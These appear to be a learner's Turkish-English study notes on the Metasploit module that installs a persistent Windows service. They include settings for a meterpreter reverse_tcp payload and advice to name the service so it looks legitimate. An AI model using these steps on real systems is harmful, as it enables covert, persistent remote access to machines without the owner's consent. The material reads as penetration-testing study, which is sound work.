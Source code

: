 
---
### exploit/windows/local/persistence_service 
## Windows Persistent Service Installer

## use 9


## Description:
### This Module will generate and upload an executable to a remote host, next will make it a persistent service.
###  It will create a new service which will start the payload whenever the service is running. <span style="background:#d4b106">Admin or system privilege is required.</span>


![[Pasted image 20240311153323.png]]

### Bu module hedefte bir payload oluşturacak. Biz ne zaman bir multi/handler ayaklandırsak dinlemeye başladığımızda biza shell verecek.
## Admin veya system yetkisi gerekiyor.

## SERVICE NAME
![[Pasted image 20240311153735.png]]
### Biz burada oluşturduğumuz service yasal legitimate gözükmesi için bir isim belirleyebiliriz.
![[Pasted image 20240311153842.png]]
### Örnek bizim kendi görev yöneticimizden service listemiz bunlara benzer veya aynı isimlerden yazabiliriz.

>[!info] set sessions 6
set LPORT 4445 ---->> değitirmene gerek yok zaten eski session ölmüş olduğu için port serbest
set Payload windows/x64/meterpreter/reverse_tcp
set SERVICE_NAME KARAN.exe

## run
![[Pasted image 20240311154458.png]]
#### Hata aldık çünkü sadece 32 bitlik altyapıda oluşturulan payloadda çalışıyormuş.

### set Payload windows/meterpreter/reverse_tcp
